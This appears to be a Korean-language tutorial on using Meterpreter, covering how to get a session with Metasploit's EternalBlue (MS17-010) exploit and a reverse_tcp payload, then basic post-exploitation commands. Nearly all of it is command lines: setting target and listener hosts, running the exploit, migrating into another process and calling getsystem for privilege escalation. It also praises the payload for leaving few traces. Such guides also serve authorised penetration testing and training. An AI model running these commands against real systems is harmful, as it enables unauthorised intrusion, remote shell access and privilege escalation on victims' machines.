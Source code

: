 # Meterpreter 사용법 완전 가이드

## Meterpreter 개요

Meterpreter는 Metasploit의 고급 페이로드로, 메모리에서 실행되어 흔적을 최소화하면서 강력한 기능을 제공합니다.

## Meterpreter 세션 획득

### 기본 설정 및 실행

```bash
# 익스플로잇 선택 후 Meterpreter 페이로드 설정
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 exploit(windows/smb/ms17_010_eternalblue) > set PAYLOAD windows/x64/meterpreter/reverse_tcp
msf6 exploit(windows/smb/ms17_010_eternalblue) > set RHOSTS 192.168.1.100
msf6 exploit(windows/smb/ms17_010_eternalblue) > set LHOST 192.168.1.50
msf6 exploit(windows/smb/ms17_010_eternalblue) > set LPORT 4444
msf6 exploit(windows/smb/ms17_010_eternalblue) > exploit

# 성공 시 Meterpreter 세션 시작
meterpreter >
```

## 기본 명령어

### 도움말 및 정보

```bash
# 도움말 보기
meterpreter > help

# 핵심 명령어만 보기
meterpreter > help core

# 시스템 정보 확인
meterpreter > sysinfo

# 현재 사용자 확인
meterpreter > getuid

# 프로세스 ID 확인
meterpreter > getpid
```

### 세션 제어

```bash
# 세션 배경화 (MSF 콘솔로 복귀)
meterpreter > background

# 세션 종료
meterpreter > exit

# 세션 마이그레이션 (다른 프로세스로 이동)
meterpreter > migrate 1234

# 세션 업그레이드 (권한 상승 후)
meterpreter > getsystem
```
